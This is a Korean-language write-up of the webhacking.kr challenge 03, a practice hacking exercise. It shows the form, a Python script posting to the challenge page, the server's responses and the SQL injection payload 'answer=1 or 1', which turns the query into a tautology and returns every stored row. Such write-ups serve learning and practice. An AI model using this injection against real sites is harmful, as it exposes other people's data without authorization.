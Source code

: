 ================================================================================================================
[webhacking.kr] 03
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {answer=1&id=1}",arrowhead="normal"];
        step3 -> step2[label="select id,answer,ip from $table_name where id=1 and answer=1",arrowhead="normal"];
        step4 -> step5[label="post_data: {answer=1 or 1&id=1}",arrowhead="normal"];
        step7 -> step6[label="select id,answer,ip from $table_name where id=1 and answer=1 or 1",arrowhead="normal"];
    }

|

MISC
================================================================================================================

- 해당 페이지는 퍼즐 형식으로 되어 있는데 정답은 아래와 같음

.. image:: ../../_images/web-03_1.png
        :align: center


- 정답 입력후 gogo 버튼을 클릭하면 다음과 같은 화면이 출력

.. image:: ../../_images/web-03_2.png
        :align: center


|

취약점 존재 여부 확인
================================================================================================================

- POST 페이지 취약점
- POST 파라미터: answer, id

.. code-block:: html

    <form name=kk method=get action=index.php>
    </form><form method=post action=index.php>
    <input type=hidden name=answer value=1010100000011100101011111>
    name : <input type=text name=id maxlength=10 size=10>
    <input type=submit value='write'>

|

POST Parameter
================================================================================================================

- 임의의 값을 입력하여 출력되는 메시지 확인

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-03/index.php?_1=1&_2=0&_3=1&_4=0&_5=1&_6=0&_7=0&_8=0&_9=0&_10=0&_11=0&_12=1&_13=1&_14=1&_15=0&_16=0&_17=1&_18=0&_19=1&_20=0&_21=1&_22=1&_23=1&_24=1&_25=1&_answer=1010100000011100101011111"
    cookies = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
    }
    data = {
        "answer": "1",
        "id":"1"
    }
    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

- 출력 결과를 보면 answer가 같은 값을 입력한 상태에서 id값을 다르게 입력하면 누적형식으로 쌓인 데이터를 확인할 수 있다. 

.. code-block:: html

    <html>
    <head>
    <title>Challenge 3</title>
    </head>
    <body>
    <center>Puzzle</center>
    <p>
    <hr>

    <form name=kk method=get action=index.php>

    <p>name : 1<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 1<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 1<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 33<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 33<br>
    answer : 1<br>
    ip : 125.x.x.x<hr><p>
    name : 33<br>
    answer : 1||1<br>
    ip : 125.x.x.x<hr>

|

Expected SQL Query 
================================================================================================================

.. code-block:: sql
    
    select id, answer, ip from $table_name where id= $_POST[id] and answer = $_POST[answer]

|


$_POST[answer]에 참인 값을 or 형식으로 넣어주면 모든 answer 출력 결과를 얻을 수 있다.

.. code-block:: sql
    
    select id, answer, ip from $table_name where id= $_POST[id] and answer = 1 or 1


